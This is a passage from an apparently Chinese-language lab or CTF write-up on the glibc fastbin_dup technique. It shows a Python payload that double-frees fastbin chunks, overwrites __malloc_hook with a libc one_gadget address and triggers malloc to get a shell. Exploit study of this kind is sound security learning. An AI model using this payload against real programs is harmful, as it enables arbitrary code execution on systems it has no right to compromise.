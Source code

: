 在终端里面用选项1触发malloc，查看这时的寄存器状态

![image-20210309155832740](https://static.hack1s.fun/images/2021/03/09/image-20210309155832740.png)

R12、R13都不是NULL，并且rsi、[rsi]也都不是NULL、[rax]、[[rax]]也不是

那只能确认一下`[rsp+0x50]`这里了

![image-20210309160124592](https://static.hack1s.fun/images/2021/03/09/image-20210309160124592.png)

检查一下栈发现这里是满足的，所以可以用这个gadget

最终我们的payload如下

```python
a=malloc(0x68)
b=malloc(0x68)

free(a)
free(b)
free(a)

malloc(0x68,p64(libc.sym['__malloc_hook']-(0x50-0x2d)))
malloc(0x68)
malloc(0x68)
malloc(0x68,b'B'*(0x50-0x3d)+p64(libc.address+0xe1fa1))

malloc(1,'')
```

运行一下就成功获得了shell权限

![image-20210309160307408](https://static.hack1s.fun/images/2021/03/09/image-20210309160307408.png)



FastBin_dup只可以用于glibc_2.3.1及以下的版本

并且需要攻击者知道要修改的地址，以及能够找到绕过chunk size检查的fake chunk

